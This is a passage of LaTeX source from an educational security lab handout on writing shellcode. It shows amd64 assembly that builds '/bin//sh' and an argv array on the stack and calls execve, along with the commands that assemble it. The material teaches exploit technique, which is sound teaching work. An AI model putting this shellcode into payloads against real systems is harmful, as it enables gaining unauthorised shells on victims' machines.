 \begin{lstlisting}
env[0] = address to the "aaa=hello"  string
env[1] = address to the "bbb=world"  string
env[2] = address to the "ccc=hello world"  string
env[3] = 0   // 0 marks the end of the array
\end{lstlisting}




\section{Task 3: Writing Shellcode (Approach 2)} 

Another approach to get the shell string and the \texttt{argv[]}
array is to dynamically construct them on the stack,
and then use the stack pointer register to get their addresses. 
A sample shellcode (for amd64) using this approach is listed below. Both
amd64 and arm64 code can be found from the \texttt{Labsetup} folder.  

Brief explanation of the code is given in the comment, but if students
want to see a full explanation, they can find much more detailed explanation
of the code in the SEED book.

\begin{lstlisting}[caption={Shellcode using the stack approach (\texttt{another\_sh64.s})}]
section .text
global _start
  _start:
    xor  rdx, rdx       ; rdx = 0
    push rdx            ; push 0 into the stack (terminate the string below)
    mov rax,'/bin//sh'  
    push rax            ; push the string into the stack
    mov rdi, rsp        ; rdi = address of the command string

    push rdx            ; push argv[1]=0 into stack
    push rdi            ; push argv[0] into stack
    mov rsi, rsp        ; rsi = address of the argv[] array

    xor  rax, rax
    mov  al, 59         ; execve()
    syscall
\end{lstlisting}

We can use the following commands to compile the assemble code into
64-bit binary code: 

\begin{lstlisting}
// For amd64
$ nasm -f elf64 mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64

// For arm64
$ as mysh_64.s -o mysh_64.o
$ ld mysh_64.o -o mysh_64
\end{lstlisting}


